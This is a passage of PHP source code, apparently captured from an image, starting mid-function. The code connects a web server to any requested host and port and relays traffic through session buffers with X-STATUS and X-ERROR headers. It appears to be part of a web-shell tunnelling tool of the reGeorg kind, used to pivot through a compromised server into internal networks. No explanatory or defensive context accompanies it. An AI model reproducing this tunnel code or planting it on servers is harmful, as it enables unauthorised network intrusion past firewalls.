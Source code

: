 ```php
                }
                $res = @socket_connect($sock, $target, $port);
                if ($res === false) 
                { 
                    header('X-STATUS: FAIL');
                    header('X-ERROR: Failed connecting to target');
                    return;
                }
                socket_set_nonblock($sock);	
                @session_start();
                $_SESSION["run"] = true;
                $_SESSION["writebuf"] = "";
                $_SESSION["readbuf"] = "";
                ob_end_clean();
                header('X-STATUS: OK');
                header("Connection: close");
                ignore_user_abort();
                ob_start();
                $size = ob_get_length();
                header("Content-Length: $size");
                ob_end_flush();
                flush();            
                session_write_close();
                
                while ($_SESSION["run"])
                {
                    $readBuff = "";
                    @session_start();
                    $writeBuff = $_SESSION["writebuf"];
                    $_SESSION["writebuf"] = "";
                    session_write_close();
                    if ($writeBuff != "")
                    {
                        $i = socket_write($sock, $writeBuff, strlen($writeBuff));
                        if($i === false)
                        { 
                            @session_start();
                            $_SESSION["run"] = false;
                            session_write_close();
                            header('X-STATUS: FAIL');
                            header('X-ERROR: Failed writing socket');
                        }
                    }
                    while ($o = socket_read($sock, 512)) {
                        if($o === false)
                        { 
                            @session_start();
                            $_SESSION["run"] = false;
                            session_write_close();
                            header('X-STATUS: FAIL');
                            header('X-ERROR: Failed reading from socket');
                        }
                        $readBuff .= $o;
                    }
                    if ($readBuff!=""){
                        @session_start();
                        $_SESSION["readbuf"] .= $readBuff;
                        session_write_close();
                    }
                    #sleep(0.2);
                }
                socket_close($sock);
            }
```